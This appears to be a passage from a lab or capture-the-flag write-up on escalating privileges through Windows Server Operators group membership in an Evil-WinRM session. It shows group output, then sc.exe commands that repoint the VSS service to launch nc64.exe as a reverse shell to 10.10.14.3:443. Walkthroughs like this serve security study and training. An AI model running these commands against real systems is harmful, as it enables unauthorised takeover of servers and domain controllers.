 ```shell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Pay attention to ```Server Operators``` group, this allow user to edit and control service

```
A built-in group that exists only on domain controllers.
By default, the group has no members. Server Operators can 
log on to a server interactively; create and delete 
network shares; start and stop services; back up and 
restore files; format the hard disk of the computer; and 
shut down the computer. Default User Rights: Allow log on 
locally: SeInteractiveLogonRight Back up files and 
directories: SeBackupPrivilege Change the system time: 
SeSystemTimePrivilege Change the time zone: 
SeTimeZonePrivilege Force shutdown from a remote system: 
SeRemoteShutdownPrivilege Restore files and directories 
SeRestorePrivilege Shut down the system: 
SeShutdownPrivilege
```

Like https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/, I get RCE now

Edit, stop and run reverse shell by nc
```shell
*Evil-WinRM* PS C:\prog> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\prog\nc64.exe -e cmd 10.10.14.3 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\prog> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\prog> sc.exe start VSS
```

